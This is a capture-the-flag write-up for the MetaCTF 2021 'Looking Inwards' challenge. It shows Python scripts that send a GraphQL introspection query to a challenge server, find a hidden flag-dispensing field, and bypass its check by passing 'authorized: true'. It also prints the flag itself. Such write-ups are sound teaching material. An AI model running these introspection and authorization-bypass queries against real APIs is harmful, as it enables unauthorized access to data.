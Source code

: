 # MetaCTF 2021

## Looking Inwards (300pts)

### Description:

> It's always fun to take a moment of introspection, in this case not about oneself, but about our field (development/security). For example when it comes to API design, first there were SOAP endpoints primarily based on XML. Then as Web 2.0 came along, RESTful APIs became all the rage. Recently, technologies like GraphQL began to gain traction.

> With new technologies, though, come new classes of attacks. Check out this basic [GraphQL API server](https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php). To get you started, here's one cool thing it can do: If you send it a `query` in the form of `echo(message: "message_here")`, it will respond with what you said. Can you get it to give you the flag?

### Included Files:

> No files provided

### Step 1 - Sending a Query to the GraphQL API

Before we could attempt to find the flag, first we wanted to get a valid response back from the GraphQL server using the query `echo(message: "message_here")` which was provided in the challenge description.

We used the following [tutorial](https://towardsdatascience.com/connecting-to-a-graphql-api-using-python-246dda927840) from `Towards Data Science` which walked us through how to send a GraphQL request using Python. Below allowed us to send that query.

```python
import requests
import pandas as pd

query = '''query {
	echo(message: "message_here")
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

Output:

```JSON
{"data":{"echo":"You said: message_here"}}
```

### Step 2 - Find Other Endpoints on GraphQL API

After a bit of research, we learned we can use a technique called `introspection` on GraphQL APIs to find other endpoints. Using the following [tutorial](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/) from `Yes We Hack`, they included the following request:

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

After putting this request into our script from the previous step, we found the following in the output:

```JSON
{
    "name": "super_super_secret_flag_dispenser",
    "description": null,
    "args": [{
        "name": "authorized",
        "description": null,
        "type": {
            "kind": "NON_NULL",
            "name": null,
            "ofType": {
                "kind": "SCALAR",
                "name": "Boolean",
                "ofType": null
            }
        },
        "defaultValue": null
    }],
    "type": {
        "kind": "NON_NULL",
        "name": null,
        "ofType": {
            "kind": "SCALAR",
            "name": "String",
            "ofType": null
        }
    },
    "isDeprecated": false,
    "deprecationReason": null
    }],
    "inputFields": null,
    "interfaces": [],
    "enumValues": null,
    "possibleTypes": null

}
```
This shows that there is an endpoint called `super_super_secret_flag_dispenser` that takes in a boolean called `authorized`.

## Step 3 - Retrieving the Flag

Using the information from the previous step, we crafted the following query:

```
query {
    super_super_secret_flag_dispenser(authorized: true)
}
```

Our final script looks like this:

```Python
import requests
import pandas as pd

query = '''query{
    super_super_secret_flag_dispenser(authorized: true)
}'''

url = 'https://metaproblems.com/bb0e56b64e0a17b47450457b07fd2353/graphql.php'
r = requests.post(url, json={'query': query})
print(r.text)
```

<details>
<summary> Output (contains the flag) </summary>
<p>
{"data":{"super_super_secret_flag_dispenser":"MetaCTF{look_deep_and_who_knows_what_you_might_find}"}}
</p>
</details>

<details>
    <summary> Flag Spoiler </summary>
    MetaCTF{look_deep_and_who_knows_what_you_might_find}
</details>
